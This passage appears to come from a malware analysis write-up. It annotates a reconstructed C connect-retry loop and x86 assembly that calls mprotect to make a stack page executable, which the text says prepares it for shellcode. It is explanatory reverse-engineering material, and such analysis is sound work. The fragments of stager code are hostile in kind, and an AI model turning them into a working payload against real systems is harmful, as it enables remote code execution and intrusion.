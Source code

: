 ```c
        }
        if(connect(s, (struct sockaddr*)&serverAddress, sizeof(serverAddress)) < 0) {
            tries--;
            if (tries == 0) {
                exit(1);
            }
            timespec t;
            t.tv_sec = 5;
            t.tv_nsec = 0;
            if (nanosleep(&t, NULL) < 0)
                exit(1);
            else 
                continue; // retry
        }
        // loc_804809C code
    }
}
```

If the *connect* function succeeds, the control jumps to **loc_804809C,** which is a syscall to *mprotect* function.

---

### Call to mprotect function

```wasm
loc_804809C:
mov     dl, 7
mov     ecx, 1000h
mov     ebx, esp
shr     ebx, 0Ch
shl     ebx, 0Ch
mov     al, 7Dh ; '}'
int     80h             ; 125 = sys_mprotect
test    eax, eax
js      short loc_80480C3
```

- `mov  dl, 7` will move the value **7** to edx. The edx register will hold the third argument for the syscall. This argument is used as flags for *mprotect* function. Here, the value **7** means `PROT_EXEC | PROT_READ | PROT_WRITE`
- `mov ecx, 1000h` will move the value **4096** to the ecx register. The ecx register will hold the second argument for the syscall. This argument is used for size, i.e., the number bytes to change protection for.
- `mov ebx, esp` will move the address in esp register to *ebx*. This argument is the address where the memory protection should be changed. This is a very strange behavior, instead of alllocating more space, it tries change memory protection in the stack. This means it will store a shellcode in the stack since there is `PROT_EXEC` flag in the third argument (edx register).
- `shr ebx, 0Ch` and `shl ebx, 0Ch` will simply align the address by 4096. If *ebx* is pointing somewhere in the memory page, it will now point to the top of the page.
- `mov al, 7Dh` will move the syscall number **125** into *eax*. This is for *mprotect* syscall.
- `int 80h` will execute the *mprotect* syscall and put the result in the *eax* register.
